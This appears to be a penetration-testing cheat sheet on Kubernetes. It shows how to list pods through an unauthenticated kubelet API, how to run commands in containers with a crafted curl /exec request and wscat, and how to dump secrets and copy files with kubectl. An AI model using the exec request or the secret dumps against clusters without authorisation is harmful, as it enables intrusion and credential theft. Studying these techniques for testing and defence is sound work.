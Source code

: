 ```yaml
---
title: "Kubernetes"
description: "Check Kubernetes API and execute commands with kubectl"
date: 23/11/2020
categories:
 - Misc
tags:
 - docker
 - kubernetes
---
```



## API

The Kubernetes API exposes the ports `10250` and `10255` (HTTP read-only).
This API can be used to interact with the Kubernetes engine which basically
give us the right to do anything you desire unauthenticated.


### List pods

To confirm that the host is running Docker you can make a GET requests to `/pods`:

```
https://<host>:<port>/pods
```

```json
{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"dind-sgz8n","generateName":"dind-","namespace":"default","selfLink":"/api/v1/namespaces/default/pods/dind-sgz8n",`...}],"qosClass":"BestEffort"}}]}
```


### Execute commands

With the above information it's possible to send requests to the API to execute
commands:

```bash
$ curl --insecure -v -H "W-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -H "Connection: upgrade" -H "Upgrade: SPDY/3.1" -X POST "https://<host>:<port>/exec/<namespace>/<pod_name>/<container_name>?command=<cmd>&input=1&output=1&tty=1"
```

In the response, there is a `Location` header to create a WebSocket connection:

```bash
$ wscat -c "https://<host>:<port>/<location_header>" --no-check
```


## Useful kubectl commands

You can add the argument `--kubeconfig {CONFIG_PATH]}` to every commands to
specify a configuration file.

If there is multiple namespace, then add the argument `--namespace {NAMESPACE}`
to be sure to interact with the correct namespace.


#### Kubernetes version

```bash
kubectl version
```

#### Check API access

Use the [`can-i`](https://kubernetes.io/docs/reference/access-authn-authz/authorization/#checking-api-access)
command to check your rights on the API. Don't forget to check for different
namespaces.

```bash
kubectl auth can-i --list --namespace {NAMESPACE}
kubectl auth can-i create pods/exec --namespace {NAMESPACE}
kubectl auth can-i get pods/logs --namespace {NAMESPACE}
```

#### Start a pod

```bash
kubectl run k8s-2-test -ti --rm --image=debian --generator=run-pod/v1
```

#### Attach to an existing pod

```bash
kubectl exec -it k8s-2-test -- /bin/bash
```

#### Connect to an existing connection

```bash
kubectl attach k8s-1-test -c k8s-1-test -i -t
```

#### Copy a file from a pod to the local machine

```bash
kubectl cp default/k8s-1-test:{FILE} ./{FILE_DEST}
```

#### Print services

```bash
kubectl get services (-o wide)
```

#### Print pods

```bash
kubectl get pods -o json
kubectl get pods -o wide
kubectl get pods -o wide | sed -e 's/\s\+/ /g' | cut -f6 -d " "
```

#### Print secrets

```bash
kubectl get secrets -o yaml
kubectl get secret {SECRET_NAME} -o yaml
```
